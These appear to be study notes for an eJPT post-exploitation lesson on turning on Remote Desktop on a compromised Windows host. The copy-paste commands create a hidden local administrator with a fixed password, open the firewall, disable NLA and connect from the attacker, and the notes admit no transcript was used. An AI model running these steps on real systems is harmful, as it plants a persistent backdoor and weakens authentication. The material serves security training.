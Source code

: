 # What the video covers (Introduction / big picture)
- Topic: How to enable RDP (Remote Desktop Protocol) on a compromised Windows host during post-exploitation so you can obtain a stable GUI session.
- Context: eJPT Windows Post-Exploitation. You typically have a local admin shell and want to:
  - Turn on RDP at the OS/registry level
  - Ensure the RDP service is running and set to auto-start
  - Open the firewall for TCP 3389
  - Ensure a usable account has RDP logon rights
  - Optionally tweak NLA (Network Level Authentication)
- Note: No transcript was provided. The steps below are conservative, based on standard Windows procedures used in eJPT-style labs.

# Flow (ordered)
1) Confirm OS and privileges (Pro/Enterprise/Server; local admin required)
2) Enable RDP via registry (fDenyTSConnections=0)
3) Start and set the Remote Desktop Services (TermService) to auto
4) Enable Windows Firewall rules for Remote Desktop (TCP/3389)
5) Ensure an account can log on via RDP (add to Administrators or “Remote Desktop Users”; create a new user if needed)
6) Optional: Disable NLA if your client can’t do NLA or you need looser auth
7) Test connectivity on 3389, then connect with mstsc/xfreerdp
8) (Optional) Change port or roll back changes if needed

# Tools highlighted
- On target (Windows built-in):
  - reg.exe (registry edits)
  - sc.exe (service control)
  - netsh advfirewall (firewall rules)
  - net.exe (user/group management)
  - PowerShell cmdlets: Set-ItemProperty, Start-Service, Set-Service, Enable-NetFirewallRule, Add-LocalGroupMember, New-LocalUser
  - Verification: netstat/findstr, qwinsta/quser, Test-NetConnection
- From attacker:
  - mstsc.exe (Windows RDP client)
  - xfreerdp or rdesktop (Linux RDP clients)
  - psexec/impacket-psexec (if you need to run commands remotely with creds)

# Typical command walkthrough (detailed, copy-paste friendly)

Prereqs:
- You have a local admin shell on the Windows target (cmd or PowerShell).
- The OS supports RDP host (Windows Pro/Enterprise/Server; Windows Home editions cannot host RDP).

A) CMD.exe approach (run as Administrator)
```
:: 1) Confirm edition (optional)
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

:: 2) Enable RDP (Deny -> 0)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" ^
  /v fDenyTSConnections /t REG_DWORD /d 0 /f

:: 3) Start RDP service and set auto-start
sc config TermService start= auto
sc start TermService

:: 4) Enable firewall rules for Remote Desktop
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

:: 5) Create a local user for RDP and add to Administrators (or Remote Desktop Users)
net user rdpuser P@ssw0rd! /add
net localgroup Administrators rdpuser /add
:: Alternatively (less privilege): net localgroup "Remote Desktop Users" rdpuser /add

:: 6) Optional: disable NLA if needed (0 = off, 1 = on)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" ^
  /v UserAuthentication /t REG_DWORD /d 0 /f

:: 7) Verify listener and rules
netstat -ano | findstr :3389
qwinsta
```

B) PowerShell approach (run as Administrator)
```
# 1) Enable RDP
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server" `
  -Name fDenyTSConnections -Value 0

# 2) Start service and set autostart
Set-Service -Name TermService -StartupType Automatic
Start-Service -Name TermService

# 3) Enable firewall rules
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# 4) Create user and add to Admins (or Remote Desktop Users)
$pw = ConvertTo-SecureString 'P@ssw0rd!' -AsPlainText -Force
New-LocalUser -Name 'rdpuser' -Password $pw -PasswordNeverExpires:$true
Add-LocalGroupMember -Group 'Administrators' -Member 'rdpuser'
# Alternative: Add-LocalGroupMember -Group 'Remote Desktop Users' -Member 'rdpuser'

# 5) Optional: disable NLA
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" `
  -Name UserAuthentication -Value 0

# 6) Test port locally
Test-NetConnection -ComputerName localhost -Port 3389
```

C) Connect from attacker
- From Windows:
```
mstsc.exe /v:TARGET_IP:3389
```
- From Linux (xfreerdp):
```
xfreerdp /u:rdpuser /p:'P@ssw0rd!' /v:TARGET_IP /cert:ignore +clipboard /dynamic-resolution
```
- From Linux (rdesktop):
```
rdesktop -u rdpuser -p 'P@ssw0rd!' TARGET_IP
```

D) Optional: change the RDP port (then allow it in firewall)
```
:: Change port to 3390 (DWORD is decimal)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" ^
  /v PortNumber /t REG_DWORD /d 3390 /f

:: Add a firewall rule for the new port
netsh advfirewall firewall add rule name="RDP 3390" dir=in action=allow protocol=TCP localport=3390

:: Restart the service for port change to take effect
sc stop TermService
sc start TermService

:: Connect with port specified
mstsc.exe /v:TARGET_IP:3390
```

E) Rollback (disable RDP)
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" ^
  /v fDenyTSConnections /t REG_DWORD /d 1 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=No
sc stop TermService
sc config TermService start= demand
```

# Practical tips
- Requires admin: You need local admin to modify registry, services, firewall, and groups.
- OS edition: Windows Home cannot host RDP; use Pro/Enterprise/Server.
- Passwords: Remote logon is blocked for blank passwords—set a non-empty password.
- Group membership: Administrators can RDP by default; otherwise add users to “Remote Desktop Users.” Domain policies can override with “Deny log on through Remote Desktop Services.”
- NLA: Prefer keeping NLA enabled for security; disable only if your client can’t negotiate or for lab constraints.
- Firewall: If the Windows Defender Firewall service is disabled, rules may be moot—verify port 3389 listening from remote.
- OPSEC/logs: RDP logons are noisy. Expect Security Event ID 4624 (LogonType 10) and TerminalServices-RemoteConnectionManager Operational Event ID 1149.
- Stability: RDP is often more stable than flaky reverse shells; good for GUI tools and persistence setup.
- Don’t change the port unless required; it adds moving parts (firewall, service restart, client config).

# Minimal cheat sheet (one-screen flow)
```
:: Enable RDP + service + firewall (CMD, as Admin)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
sc config TermService start= auto & sc start TermService
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

:: Create user and allow RDP
net user rdpuser P@ssw0rd! /add
net localgroup Administrators rdpuser /add
:: (or) net localgroup "Remote Desktop Users" rdpuser /add

:: Optional: disable NLA
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

:: Verify and connect
netstat -ano | findstr :3389
xfreerdp /u:rdpuser /p:'P@ssw0rd!' /v:TARGET_IP /cert:ignore +clipboard /dynamic-resolution
```

# Summary
- Enabling RDP post-exploitation is a standard Windows task: flip fDenyTSConnections=0, ensure TermService is running/auto, open firewall for TCP/3389, and confirm a valid account has RDP logon rights. Optionally adjust NLA for compatibility. Test with mstsc/xfreerdp. Since the transcript wasn’t provided, the above is a conservative, lab-proven sequence you can copy/paste to rapidly turn on RDP and obtain a GUI foothold in typical eJPT scenarios.